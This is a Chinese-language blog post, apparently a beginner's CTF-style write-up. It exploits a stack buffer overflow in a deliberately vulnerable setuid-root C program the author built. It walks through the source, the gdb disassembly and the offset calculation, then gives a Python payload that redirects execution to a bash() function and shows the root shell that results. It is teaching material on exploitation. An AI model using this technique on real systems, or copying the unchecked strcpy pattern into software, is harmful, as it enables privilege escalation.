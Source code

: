 ```yaml
---
categories: C++/C
date: "2018-11-06T00:00:00Z"
description: 一次简单的pwn题目
title: 一次简单的pwn题目
url: /archivers/2018-11-06/1
---
```


一次简单的pwn题目
<!--more-->

## 0x01 背景介绍


![0x01](https://rvn0xsy.oss-cn-shanghai.aliyuncs.com/2018-11-06/89878547F623C64F0C41D9A5E04DD0E1.jpg)

![0x02](https://rvn0xsy.oss-cn-shanghai.aliyuncs.com/2018-11-06/A0240C8DD946466BBD6385370A450BE1.jpg)

在A师傅的带领下，我假想了一个pwn简单题目，非常适合新手中的新手，其实发出来有点丢人的。


题目背景是这样的：

小Q登录上了一个服务器，他的用户名是`rvn0xsy`，没有root权限，在home目录里发现了一个名为flag.txt的文件，很明显要获得flag.txt的内容，但是事情并没有那么简单……

小Q踏上了艰辛的旅程。


## 0x02 初入江湖

小Q查看了一下目录文件：

```sh
rvn0xsy@ubuntu:~/Pwn$ ll
total 44
drwxrwxr-x  2 rvn0xsy rvn0xsy 4096 Nov  5 19:50 ./
drwxr-xr-x 20 rvn0xsy rvn0xsy 4096 Nov  5 09:47 ../
-rwsr-sr-x  1 root    root    8487 Nov  5 09:48 a.out*
-rw-------  1 root    rvn0xsy    6 Nov  5 19:50 flag.txt
-rw-rw-r--  1 rvn0xsy rvn0xsy  317 Nov  5 09:48 pwn.c
rvn0xsy@ubuntu:~/Pwn$ cat flag.txt 
cat: flag.txt: Permission denied
rvn0xsy@ubuntu:~/Pwn$ 
```
发现了flag.txt，没有权限读取 :(

只能把目光转向`a.out`，这个文件似乎不是那么简单，它具有S属性，如果我们能够通过它来执行命令的话……那肯定可以读取flag.txt ！！

旁边还有一个pwn.c，会不会是它的源码呢？

## 0x03 踏上征程

```sh
rvn0xsy@ubuntu:~/Pwn$ cat -n pwn.c 
     1	#include <stdio.h>
     2	#include <unistd.h>
     3	#include <string.h>
     4	#include <stdlib.h>
     5	
     6	int bash();
     7	
     8	int main(int argc,char * argv[]){
     9		setuid(0);
    10		if(argv[1] == NULL){
    11			printf("usage : %s input string \n",argv[0]);
    12			exit(-1);
    13		}
    14		char a[20];
    15		strcpy(a,argv[1]);
    16		printf("%s \n",a);
    17	}
    18	
    19	int bash(){
    20	  system("/bin/bash");
    21	}
rvn0xsy@ubuntu:~/Pwn$ 
```

可以看到`main`函数中有一个`setuid(0);`，它将具有S属性的程序设置为root权限运行，其次该文件中还有一个`bash`函数，灵光乍现！ 如果执行了`setuid(0);`再调用`bash`函数就可以获得一个root权限的bash shell。

但是main函数中并没有调用bash函数，这个怎么办呢？

焦虑的小Q又会想起当年学习C语言时，自己触发过N次的`segment fault`，是由于它没有检查`strcpy`参数传入的长度，导致覆盖了数组边界。

但是其背后引出的问题都不是那么简单，上面只是普通程序员所理解的程度，而要深入问题的本质，还是要看汇编代码：

```sh
>>> disassemble main 
Dump of assembler code for function main:
   0x080484dd <+0>:	push   ebp ;将栈基地址压入栈
   0x080484de <+1>:	mov    ebp,esp ;设置当前栈指针地址为基址
   0x080484e0 <+3>:	and    esp,0xfffffff0
   0x080484e3 <+6>:	sub    esp,0x30 ;将esp向后增长30（16进制=>48字节）位 给char a[20]分配的也在其中
   0x080484e6 <+9>:	mov    DWORD PTR [esp],0x0
   0x080484ed <+16>:	call   0x80483d0 <setuid@plt> ; 调用setuid(0)
   0x080484f2 <+21>:	mov    eax,DWORD PTR [ebp+0xc]
   0x080484f5 <+24>:	add    eax,0x4
   0x080484f8 <+27>:	mov    eax,DWORD PTR [eax]
   0x080484fa <+29>:	test   eax,eax
   0x080484fc <+31>:	jne    0x804851f <main+66> ; 判断argv[1]是否为空
   0x080484fe <+33>:	mov    eax,DWORD PTR [ebp+0xc]
   0x08048501 <+36>:	mov    eax,DWORD PTR [eax]
   0x08048503 <+38>:	mov    DWORD PTR [esp+0x4],eax
   0x08048507 <+42>:	mov    DWORD PTR [esp],0x8048600
   0x0804850e <+49>:	call   0x8048370 <printf@plt> ; 调用printf
   0x08048513 <+54>:	mov    DWORD PTR [esp],0xffffffff
   0x0804851a <+61>:	call   0x80483b0 <exit@plt> ; 退出
   0x0804851f <+66>:	mov    eax,DWORD PTR [ebp+0xc]
   0x08048522 <+69>:	add    eax,0x4
   0x08048525 <+72>:	mov    eax,DWORD PTR [eax]
   0x08048527 <+74>:	mov    DWORD PTR [esp+0x4],eax
   0x0804852b <+78>:	lea    eax,[esp+0x1c]
   0x0804852f <+82>:	mov    DWORD PTR [esp],eax
   0x08048532 <+85>:	call   0x8048380 <strcpy@plt>
   0x08048537 <+90>:	lea    eax,[esp+0x1c]
   0x0804853b <+94>:	mov    DWORD PTR [esp+0x4],eax
   0x0804853f <+98>:	mov    DWORD PTR [esp],0x804861a
   0x08048546 <+105>:	call   0x8048370 <printf@plt> ; 输出 a
   0x0804854b <+110>:	leave  
   0x0804854c <+111>:	ret    
End of assembler dump.
```

在`strcpy`处设置断点，栈情况：
```sh
[------------------------------------stack-------------------------------------]
0000| 0xbfe74180 --> 0x0 
0004| 0xbfe74184 --> 0x2f ('/')
0008| 0xbfe74188 --> 0x804a000 --> 0x8049f14 --> 0x1 
0012| 0xbfe7418c --> 0x80485c2 (<__libc_csu_init+82>:	add    edi,0x1)
0016| 0xbfe74190 --> 0x2 
0020| 0xbfe74194 --> 0xbfe74254 --> 0xbfe75921 ("/home/rvn0xsy/Pwn/a.out")
0024| 0xbfe74198 --> 0xbfe74260 --> 0xbfe7593d ("SHELL=/bin/bash")
0028| 0xbfe7419c --> 0xb755164d (<__cxa_atexit+29>:	test   eax,eax)
```
`0xbfe75921`就是`argv`数组的首地址

```sh
>>> x /8s 0xbfe75921
0xbfe75921:	"/home/rvn0xsy/Pwn/a.out"
0xbfe75939:	"123"
0xbfe7593d:	"SHELL=/bin/bash"
0xbfe7594d:	"TERM=xterm"
0xbfe75958:	"USER=rvn0xsy"
0xbfe75962:	"LS_COLORS=rs=0:di=01;34:ln=01;36:mh=00:pi=40;33:so=01;35:do=01;35:bd=40;33;01:cd=40;33;01:or=40;31;01:su=37;41:sg=30;43:ca=30;41:tw=30;42:ow=34;42:st=37;44:ex=01;32:*.tar=01;31:*.tgz=01;31:*.arj=01;31"...
0xbfe75a2a:	":*.taz=01;31:*.lzh=01;31:*.lzma=01;31:*.tlz=01;31:*.txz=01;31:*.zip=01;31:*.z=01;31:*.Z=01;31:*.dz=01;31:*.gz=01;31:*.lz=01;31:*.xz=01;31:*.bz2=01;31:*.bz=01;31:*.tbz=01;31:*.tbz2=01;31:*.tz=01;31:*.d"...
0xbfe75af2:	"eb=01;31:*.rpm=01;31:*.jar=01;31:*.war=01;31:*.ear=01;31:*.sar=01;31:*.rar=01;31:*.ace=01;31:*.zoo=01;31:*.cpio=01;31:*.7z=01;31:*.rz=01;31:*.jpg=01;35:*.jpeg=01;35:*.gif=01;35:*.bmp=01;35:*.pbm=01;35"...
>>> 
```

可以看到，我们传入的`123`在`0xbfe75939`

通过计算`strcpy()`的栈偏移量，我们可以确定`0xbfe75939`到`ESP`中函数返回值的空间有`0xc`这个长度。

由于还有内存对齐的缘故，所以缓冲区的大小应该是32，再向后4个字节就是strcpy的下一条指令的地址

## 0x04 小有成绩


获得bash函数的地址：

```sh
>>> p bash
$1 = {int ()} 0x804854d <bash>
>>> 
```

构造shellcode：

```sh
python -c "print 'x'*32+'\x4d\x85\x04\x08'"> exploit.txt
```

## 0x05 修仙完毕

```sh
rvn0xsy@ubuntu:~/Pwn$ ./a.out $(cat exploit.txt)
xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxM� 
bash-4.3# cat flag.txt 
12580
bash-4.3# id
uid=0(root) gid=1000(rvn0xsy) groups=0(root),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),108(lpadmin),125(sambashare),1000(rvn0xsy)
bash-4.3# exit
exit
Segmentation fault (core dumped)
rvn0xsy@ubuntu:~/Pwn$ 
```
flag.txt内容是12580，退出的时候，是由于EIP寄存器指向了一个非指令内存区域，导致段地址错误。



